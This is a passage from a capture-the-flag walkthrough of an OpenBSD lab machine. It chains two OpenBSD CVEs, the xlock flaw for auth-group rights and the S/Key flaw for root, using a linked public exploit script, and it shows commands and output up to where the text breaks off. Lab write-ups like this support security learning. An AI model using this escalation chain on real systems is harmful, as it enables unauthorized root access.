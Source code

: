 ```

```

And grab `user.txt`:

```

openkeys$ cat user.txt
36ab2123************************

```

## Priv: jennifer –> root

### Enumeration

There are three more CVEs in the [same post from Qualys](https://www.qualys.com/2019/12/04/cve-2019-19521/authentication-vulnerabilities-openbsd.txt) beyond the authentication bypass:
- Local privilege escalation via xlock [CVE-2019-19520]
- Local privilege escalation via S/Key and YubiKey [CVE-2019-19522]
- Local privilege escalation via su [CVE-2019-19519]

Reading each of these, the last doesn’t seem useful. The S/Key one jumps out because of the box name, but it only jumps from the `auth` group to root, and jennifer is not in auth:

```

openkeys$ id
uid=1001(jennifer) gid=1001(jennifer) groups=1001(jennifer), 0(wheel)

```

But, the `xlock` vulnerability will allow me to gain the privileges of the `auth` group, so I can use these two together to get a shell as root.

### Shortcut Script

To just get root, there’s a beautiful script [on GitHub](https://github.com/bcoles/local-exploits/blob/master/CVE-2019-19520/openbsd-authroot) that will return a root shell. I’ll open `vi` and paste in the code, and then set it executable:

```

openkeys$ vi .df 
openkeys$ chmod +x .df

```

Now just run it:

```

openkeys$ ./.df
./.df[1]: penbsd-authroot: not found
openbsd-authroot (CVE-2019-19520 / CVE-2019-19522)
[*] checking system ...
[*] system supports S/Key authentication
[*] id: uid=1001(jennifer) gid=1001(jennifer) groups=1001(jennifer), 0(wheel)
[*] compiling ...
[*] running Xvfb ...
[*] testing for CVE-2019-19520 ...
[+] success! we have auth group permissions

WARNING: THIS EXPLOIT WILL DELETE KEYS. YOU HAVE 5 SECONDS TO CANCEL (CTRL+C).

[*] trying CVE-2019-19522 (S/Key) ...
Your password is: EGG LARD GROW HOG DRAG LAIN
otp-md5 99 obsd91335
```